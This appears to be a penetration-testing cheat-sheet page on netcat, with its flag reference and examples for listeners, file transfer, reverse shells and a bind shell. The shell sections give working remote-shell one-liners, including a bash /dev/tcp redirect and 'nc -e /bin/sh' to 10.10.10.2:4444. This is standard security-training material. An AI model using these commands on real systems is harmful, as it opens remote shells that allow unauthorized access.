 ```yaml
---
title: "nc"
# pre : '<i class="fas fa-code"></i> '
description: "Netcat, arbitrary TCP and UDP connections and listens."
date: 2020-04-09T13:47:11+02:00
# hidden : true
# draft : true
weight: 0
# tags : ['']
---
```


## Netcat

Netcat, arbitrary TCP and UDP connections and listens.

### Binary for Windows

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

* SHA256 'nc.exe' - `be4211fe5c1a19ff393a2bcfa21dad8d0a687663263a63789552bda446d9421b`

### Usage

```plain
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

### Flags

```plain
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

### Examples

#### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```plain
nc -lvp 10.10.10.2 80
```

#### Transferring files

Receiver

```plain
nc -nlvp 10.10.10.2 4444 > incomming.exe
```

Sender

```plain
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

### Reverse Shell

**Receiver:**

```plain
nc -nlvp 10.10.10.2 4444
```

**Identity connecting and sending the reverse shell:**

```plain
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

**OR identity connecting and sending the reverse shell:**

```plain
nc 10.10.10.2 4444 -e /bin/sh
```

### Bind Shell

**Receiver:**

```plain
nc -nlvp 4444 -e cmd.exe
```

**Identity connecting to bind shell::**

```plain
nc -nv <ip> 4444
```

### URL list

* [Linux.die.net](https://linux.die.net/man/1/nc)
